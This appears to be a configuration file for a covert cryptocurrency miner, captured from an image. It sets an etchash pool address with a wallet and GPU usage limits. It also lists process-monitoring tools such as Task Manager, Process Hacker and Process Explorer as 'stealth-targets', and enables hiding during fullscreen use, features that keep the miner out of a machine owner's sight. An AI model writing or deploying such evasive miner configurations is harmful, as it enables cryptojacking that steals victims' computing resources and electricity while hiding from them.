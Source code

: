 {
    "url": "stratums://`0xe4ac3124c713137B3d1554A1101f1f0E3B0d1F58`.like@etc.2miners.com:11010",
    "algo": "etchash",
    "max-gpu": 0,
    "idle-wait": 5,
    "idle-gpu": 80,
    "stealth-targets": "Taskmgr.exe,ProcessHacker.exe,perfmon.exe,procexp.exe,procexp64.exe",
    "kill-targets": "",
    "stealth-fullscreen": true
}
